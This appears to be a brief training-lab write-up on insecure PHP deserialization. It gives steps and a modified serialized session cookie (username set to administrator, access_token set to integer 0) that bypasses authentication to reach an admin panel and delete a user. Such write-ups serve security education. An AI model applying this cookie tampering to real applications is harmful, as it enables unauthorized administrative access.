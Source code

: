 # Modifying serialized data types

serialization-based session mechanism and is vulnerable to authentication bypass


Solving this lab is similar to the previous, except you are deleting the value of the access token
- Highlight the session cookie in repeater, then go into the Inspector tab:
1. Change username to administrator
2. Change the `s:12` to `s:13` (13 chars in "administrator")
3. Modify the access token to be an int of 0 `i:0`
4. Send a request to `GET /admin` with the modified session cookie
5. Then delete Carlos 

```php
// unmodded session cookie
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zq8h8ul1frtorajmvs1gi80nv2lelurw";}
```

```php
// modded session cookie
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
